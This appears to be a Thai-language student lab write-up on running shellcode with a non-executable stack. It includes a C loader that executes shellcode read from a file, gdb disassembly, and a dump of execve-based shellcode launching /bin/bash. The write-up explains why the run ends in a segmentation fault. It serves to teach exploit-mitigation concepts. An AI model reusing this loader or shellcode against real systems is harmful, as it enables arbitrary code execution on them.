

- จาก Task 1 ถ้า shell code สำเร็จ จะแสดง success message
- เมื่อ stack เป็น **non-executable** จะเกิด Segmentation fault


### Explain

```
(No debugging symbols found in a32.out)
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x0000124d <+0>:	endbr32 
   0x00001251 <+4>:	lea    ecx,[esp+0x4]
   0x00001255 <+8>:	and    esp,0xfffffff0
   0x00001258 <+11>:	push   DWORD PTR [ecx-0x4]
   0x0000125b <+14>:	push   ebp
   0x0000125c <+15>:	mov    ebp,esp
   0x0000125e <+17>:	push   ebx
   0x0000125f <+18>:	push   ecx
   0x00001260 <+19>:	sub    esp,0x220
   0x00001266 <+25>:	call   0x1150 <__x86.get_pc_thunk.bx>
   0x0000126b <+30>:	add    ebx,0x2d5d
   0x00001271 <+36>:	mov    eax,ecx
   0x00001273 <+38>:	mov    eax,DWORD PTR [eax+0x4]
   0x00001276 <+41>:	mov    DWORD PTR [ebp-0x21c],eax
   0x0000127c <+47>:	mov    eax,gs:0x14
   0x00001282 <+53>:	mov    DWORD PTR [ebp-0xc],eax
   0x00001285 <+56>:	xor    eax,eax
   0x00001287 <+58>:	lea    eax,[ebx-0x1fc0]
   0x0000128d <+64>:	mov    DWORD PTR [ebp-0x20c],eax
   0x00001293 <+70>:	sub    esp,0x8
   0x00001296 <+73>:	lea    eax,[ebx-0x1fb4]
   0x0000129c <+79>:	push   eax
   0x0000129d <+80>:	push   DWORD PTR [ebp-0x20c]
   0x000012a3 <+86>:	call   0x1100 <fopen@plt>
   0x000012a8 <+91>:	add    esp,0x10
   0x000012ab <+94>:	mov    DWORD PTR [ebp-0x208],eax
   0x000012b1 <+100>:	cmp    DWORD PTR [ebp-0x208],0x0
   0x000012b8 <+107>:	jne    0x12d5 <main+136>
   0x000012ba <+109>:	sub    esp,0xc
   0x000012bd <+112>:	push   DWORD PTR [ebp-0x20c]
   0x000012c3 <+118>:	call   0x10c0 <perror@plt>
   0x000012c8 <+123>:	add    esp,0x10
   0x000012cb <+126>:	sub    esp,0xc
   0x000012ce <+129>:	push   0x1
   0x000012d0 <+131>:	call   0x10e0 <exit@plt>
   0x000012d5 <+136>:	push   DWORD PTR [ebp-0x208]
   0x000012db <+142>:	push   0x1f4
   0x000012e0 <+147>:	push   0x1
   0x000012e2 <+149>:	lea    eax,[ebp-0x200]
   0x000012e8 <+155>:	push   eax
   0x000012e9 <+156>:	call   0x10d0 <fread@plt>
   0x000012ee <+161>:	add    esp,0x10
   0x000012f1 <+164>:	lea    eax,[ebp-0x200]
   0x000012f7 <+170>:	mov    DWORD PTR [ebp-0x204],eax
   0x000012fd <+176>:	mov    eax,DWORD PTR [ebp-0x204]
   0x00001303 <+182>:	call   eax
   0x00001305 <+184>:	mov    eax,0x1
   0x0000130a <+189>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0000130d <+192>:	xor    edx,DWORD PTR gs:0x14
   0x00001314 <+199>:	je     0x131b <main+206>
   0x00001316 <+201>:	call   0x13b0 <__stack_chk_fail_local>
   0x0000131b <+206>:	lea    esp,[ebp-0x8]
   0x0000131e <+209>:	pop    ecx
   0x0000131f <+210>:	pop    ebx
   0x00001320 <+211>:	pop    ebp
   0x00001321 <+212>:	lea    esp,[ecx-0x4]
   0x00001324 <+215>:	ret    
End of assembler dump.
```

#### call_shellcode.c(เป็น a32.out ใน C language)

```
#include <stdlib.h>
#include <stdio.h>

// Read the shellcode from a file, and then execute the code. 
int main(int argc, char **argv)
{
    char code[500];
    FILE *fd;
#if __x86_64__
    const char *filename = "codefile_64";
#else 
    const char *filename = "codefile_32";
#endif

    fd = fopen(filename, "r");
    if (!fd){
       perror(filename); exit(1);
    }
    fread(code, sizeof(char), 500, fd);

    int (*func)() = (int(*)())code;
    func();
    return 1;
}


```
- จะนำ shellcode ที่อยู่ใน codefile_32 ไปเป็น func();
- โดยจะนอ่านไฟล์แล้วเก็บไว้ใน code[]



- EAX จะเก็บตำแหน่งของ code[] ที่อยู่ใน stack



- เมื่อตามไปดูใน stack ที่เก็บ shell code ที่ 0xffffcec8



- เมื่อ print stack ออกมาก็จะพบ shell code ที่ใส่ไว้



- แต่ stack ไม่มี x permission

```
gdb-peda$ x/50i $eax
   0xffffcec8:	jmp    0xffffcef3
   0xffffceca:	pop    ebx
   0xffffcecb:	xor    eax,eax
   0xffffcecd:	mov    BYTE PTR [ebx+0x9],al
   0xffffced0:	mov    BYTE PTR [ebx+0xc],al
   0xffffced3:	mov    BYTE PTR [ebx+0x47],al
   0xffffced6:	mov    DWORD PTR [ebx+0x48],ebx
   0xffffced9:	lea    ecx,[ebx+0xa]
   0xffffcedc:	mov    DWORD PTR [ebx+0x4c],ecx
   0xffffcedf:	lea    ecx,[ebx+0xd]
   0xffffcee2:	mov    DWORD PTR [ebx+0x50],ecx
   0xffffcee5:	mov    DWORD PTR [ebx+0x54],eax
   0xffffcee8:	lea    ecx,[ebx+0x48]
   0xffffceeb:	xor    edx,edx
   0xffffceed:	xor    eax,eax
   0xffffceef:	mov    al,0xb
   0xffffcef1:	int    0x80
   0xffffcef3:	call   0xffffceca
   0xffffcef8:	das    
   0xffffcef9:	bound  ebp,QWORD PTR [ecx+0x6e]
   0xffffcefc:	das    
   0xffffcefd:	bound  esp,QWORD PTR [ecx+0x73]
   0xffffcf00:	push   0x2a632d2a
   0xffffcf05:	das    
   0xffffcf06:	bound  ebp,QWORD PTR [ecx+0x6e]
   0xffffcf09:	das    
   0xffffcf0a:	jb     0xffffcf79
   0xffffcf0c:	and    BYTE PTR ds:0x742f2066,ch
   0xffffcf12:	ins    DWORD PTR es:[edi],dx
   0xffffcf13:	jo     0xffffcf44
   0xffffcf15:	je     0xffffcf7c
   0xffffcf17:	jae    0xffffcf8d
   0xffffcf19:	and    BYTE PTR [esi],ah
   0xffffcf1b:	and    BYTE PTR es:[ebp+0x63],ah
   0xffffcf1f:	push   0x7573206f
   0xffffcf24:	arpl   WORD PTR [ebx+0x65],sp
   0xffffcf27:	jae    0xffffcf9c
   0xffffcf29:	and    BYTE PTR [eax],ah
   0xffffcf2b:	and    BYTE PTR [eax],ah
   0xffffcf2d:	and    BYTE PTR [eax],ah
   0xffffcf2f:	and    BYTE PTR [eax],ah
   0xffffcf31:	and    BYTE PTR [eax],ah
   0xffffcf33:	and    BYTE PTR [eax],ah
   0xffffcf35:	and    BYTE PTR [eax],ah
   0xffffcf37:	and    BYTE PTR [eax],ah
   0xffffcf39:	and    BYTE PTR [eax],ah
   0xffffcf3b:	and    BYTE PTR [eax],ah
   0xffffcf3d:	and    BYTE PTR [eax],ah
   0xffffcf3f:	sub    al,BYTE PTR [ecx+0x41]
   0xffffcf42:	inc    ecx

```




- เมื่อ cpu execute call 0xffffcec8 ทำให้ pc ไปชี้ที่ 0xffffcec8 ซึ่งคือตำแหน่งใน stack ที่เก็บ shell code 
- cpe decode ค่าใน stack ออกมาพบว่าเป็น instruction แต่ stack ไม่มี execute permission ทำให้เกิด segmentation fault

```
Segmentation faults C++ is an error that occurs when a program attempts to access a memory location it does not have permission to access
```

https://www.geeksforgeeks.org/cpp/segmentation-fault-c-cpp/


